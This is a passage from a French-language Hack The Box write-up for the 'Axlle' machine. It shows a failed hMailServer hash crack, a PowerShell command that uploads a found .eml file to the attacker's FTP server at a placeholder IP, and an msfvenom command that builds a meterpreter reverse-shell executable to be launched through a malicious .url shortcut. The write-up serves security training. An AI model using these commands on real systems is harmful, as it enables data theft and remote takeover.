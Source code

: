 Malheureusement, nous ne sommes pas en mesure de craquer ce hachage, il n'y a rien de plus à faire pour ce processus d'exploitation, alors cherchons une autre voie.

![hmailserver hash cracking failure](/images/HTB-Axlle/hmailserver_hashcrack_fail.png)

### Exploitation du fichier .URL (shell en tant que dallon.matrix)

Dans `C:\Program Files (x86)\hMailServer\Data\axlle.htb\dallon.matrix\2F` nous trouvons un fichier `.eml`.

> Un fichier `.eml` est un message électronique enregistré au format standard MIME RFC 822. Ces fichiers sont généralement créés par des programmes de messagerie tels que Microsoft Outlook, Mozilla Thunderbird, etc. Le format de fichier `.eml` préserve l'en-tête, le corps et les pièces jointes du message original, ce qui le rend utile pour l'archivage et le transfert des messages électroniques.

![eml file location](/images/HTB-Axlle/eml_file.png)

Nous l'envoyons à notre machine locale par FTP (cela peut aussi être fait avec la commande `download` de meterpreter utilisée plus tôt).

```
pip3 install pyftpdlib
python3 -m pyftpdlib --port 21 --write
```

Sur la cible, nous exécutons la commande ci-dessous et recevons le fichier eml sur le serveur FTP:

```
(New-Object Net.WebClient).UploadFile('ftp://YOUR_IP/{2F7523BD-628F-4359-913E-A873FCC59D0F}.eml', 'C:\Program Files (x86)\hMailServer\Data\axlle.htb\dallon.matrix\2F\{2F7523BD-628F-4359-913E-A873FCC59D0F}.eml')
```

![eml file download](/images/HTB-Axlle/eml_file_dl.png)

Nous apprenons que nous pouvons placer des liens dans le dossier `C:\inetpub\testing`, et que ces derniers seront automatiquement exécutés.

![content of eml file](/images/HTB-Axlle/webdev-team-email.png)

Nous pouvons transférer un fichier `.url` qui pointe vers un fichier malveillant dans le dossier `testing`.

> Les fichiers `.url` sont communément appelés raccourcis internet. Ils sont utilisés pour créer des raccourcis vers des sites web ou des ressources web, permettant aux utilisateurs d'y accéder rapidement sans avoir à naviguer dans un navigateur web.

1. Créer un fichier `.exe` avec msfvenom.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=PORT_NUMBER -f exe -o payload.exe
```

![malicious exe file](/images/HTB-Axlle/malicious_exe.png)
